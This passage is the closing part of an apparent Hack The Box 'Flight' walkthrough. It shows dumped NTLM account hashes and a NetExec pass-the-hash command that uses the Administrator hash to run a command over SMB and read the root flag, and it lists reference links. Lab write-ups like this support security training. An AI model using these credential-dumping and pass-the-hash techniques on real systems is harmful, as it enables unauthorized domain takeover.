D.Truff:1610:aad3b435b51404eeaad3b435b51404ee:b89f7c98ece6ca250a59a9f4c1533d44:::
V.Stevens:1611:aad3b435b51404eeaad3b435b51404ee:2a4836e3331ed290bd1c2fd2b50beb41:::
svc_apache:1612:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::
O.Possum:1613:aad3b435b51404eeaad3b435b51404ee:68ec50916875888f44caff424cd3f8ac:::
G0$:1001:aad3b435b51404eeaad3b435b51404ee:140547f31f4dbb4599dc90ea84c27e6b:::
[*] Cleaning up... 
```

Those hashes work for a pass the hash attack.

```bash
❯ nxc smb 10.129.129.49 -u 'Administrator' -H '43bbfc530bab76141b12c8446e30c17c' -x 'type C:\Users\Administrator\Desktop\root.txt'

SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         flight.htb      445    G0               [+] flight.htb\Administrator:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)

74be1697************************
```

**Reference:**

- https://app.hackthebox.com/machines/510
- https://0xdf.gitlab.io/2023/05/06/htb-flight.html